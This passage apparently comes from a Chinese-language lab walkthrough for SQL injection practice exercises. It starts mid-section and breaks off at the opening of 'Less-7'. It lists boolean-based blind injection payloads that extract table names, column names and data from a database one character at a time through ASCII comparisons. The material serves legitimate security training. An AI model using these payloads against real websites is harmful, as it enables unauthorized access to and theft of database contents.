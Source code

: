 返回了正确页面，说明联合数据表名第一个字符的<code>ASCII</code>表的十进制大于50



+ 再修改参数逐步爆破整个联合数据表名

~~~ shell
?id=1"and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),2,1))>50--+
?id=1"and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),3,1))>50--+
?id=1"and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),4,1))>50--+
...
~~~



+ 再逐步爆破联合字段名长度

~~~ shell
?id=1" and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='（之前爆破的数据表名）')>20--+
~~~



+ 逐步爆破联合字段名

~~~ shell
?id=1" and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='（之前爆破的数据表名）'),1,1))>99--+
~~~



+ 最后检测想要的内容

~~~ shell
?id=1" and ascii(substr((select group_concat(（字段名）,（字段名）) from （数据表名）),1,1))>50--+
~~~



### Less-7

+ 注入以下语句

~~~ shell
?id=1
~~~
